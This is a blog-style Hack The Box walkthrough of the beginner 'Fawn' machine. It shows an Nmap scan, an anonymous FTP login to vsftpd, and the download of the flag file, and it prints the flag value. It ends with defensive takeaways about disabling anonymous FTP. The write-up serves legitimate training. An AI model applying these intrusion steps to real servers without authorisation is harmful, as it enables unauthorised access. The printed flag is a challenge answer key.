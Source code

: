 ```yaml
---
layout: post
title: "Fawn – Hack The Box"
categories: htb
date: 2025-07-18
---
```


## 🧠 Summary

Hack The Box's **Fawn** is a very easy Linux machine that demonstrates the security risk of enabling **anonymous FTP login**. We will connect to the HTB network, enumerate services using Nmap, log in to FTP without credentials, and retrieve the flag.

---

## 🛠️ Tools Used

- **OpenVPN** – To connect to HTB labs
- **Ping** – For connectivity check
- **Nmap** – For service enumeration
- **FTP Client** – For file download via anonymous login

---

## 🖥️ Target Info

- IP: `10.129.170.179`
- OS: Unix
- Service: FTP (vsftpd 3.0.3)

---

## 🚀 Steps to Root

### 1. Connect to HTB VPN
Download your `.ovpn` file from HTB and run:
```bash
sudo openvpn file-name.ovpn
```

### 2. Scan with Nmap
Run an Nmap scan to find open ports and services:
```bash
nmap -sV -Pn 10.129.170.179
```
Result:

![Nmap Scan](/assets/img/htb/fawn/nmapfawn.jpg)

### 3. Connect via FTP (Anonymous Login)
Connect to the FTP service:
```bash
ftp 10.129.170.179
```
When prompted (**FTP's default username is anonymous not root!**):
```bash
Name: anonymous
Password: (press Enter)
```
![Connecting to FTP](/assets/img/htb/fawn/ftp.jpg)

### 4. List Files and Download Flag
Inside the FTP session:
```bash
ls -la
get flag.txt
bye
```
Then view the flag:
```bash
cat flag.txt
```
Flag:
```bash
035db21c881520061c53e0536e44f815
```
![Transfer File](/assets/img/htb/fawn/transfer.jpg)
![View Flag](/assets/img/htb/fawn/view.jpg)

### Key Takeaways
- Anonymous FTP access is a critical misconfiguration because it allows anyone to read or upload files without authentication.
- FTP transmits credentials in plaintext, making it insecure.
- Always disable anonymous FTP access and use SFTP or SCP for secure transfers.
